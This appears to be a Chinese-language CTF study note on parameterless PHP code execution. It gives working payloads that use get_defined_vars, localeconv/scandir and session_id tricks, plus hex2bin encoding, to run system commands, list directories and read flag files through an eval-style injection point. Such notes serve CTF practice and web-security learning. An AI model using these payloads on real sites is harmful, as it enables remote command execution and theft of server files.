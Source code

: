 get_defined_vars()

返回所有已定义变量的值所组成的数组

```
?code=print_r(get_defined_vars));
返回数组顺序为GET->POST->COOKIE->FILES
?code=print_r(end(pos(get_defined_vars())));&cmd=system('ls');
&加入想要获取的命令
把print_r换成eval，assert即可
end获取GET的最后一项cmd的值system('ls')
```

```
var_dump(scandir(current(localeconv())));

查看当前目录下的文件

localeconv() 函数返回当前设置的地区的格式化信息，包括货币符号、小数点符号等。它返回一个数组，其中包含了与当前地区相关的格式化参数，该函数返回的第一个元素的值通常是小数点 “.” 。

current() 函数用于获取数组中的当前元素的值。在这里，它用于获取 localeconv() 函数返回的数组的第一个元素的值，即一个小数点。

scandir() 函数用于获取指定目录中的文件和文件夹列表。它接受一个路径作为参数，并返回一个包含指定目录中所有文件和文件夹的数组。scandir(".") 表示获取当前目录下的文件列表。

最后使用 var_dump() 函数将该列表输出到页面上。
```



### 无参数命令执行session

使用条件：php7以下

session_start()

启动新会话或者重用现有会话，成功开始会话返回true，反之返回false

```
?code=print_r(session_start());

返回1

?code=print_r(session_id(session_start()))
返回PHPSESSID的值
可以通过bp修改它
```

print_r修改为show_source(session_id(session_start))

用show_source读取flag文件源代码



修改外部函数为eval()

修改PHPSESSID为‘phpinfo();’

但无法直接执行，需要把phpinfo();改为hex编码后再用hex2bin()函数将16进制转为2进制，才可用eval执行
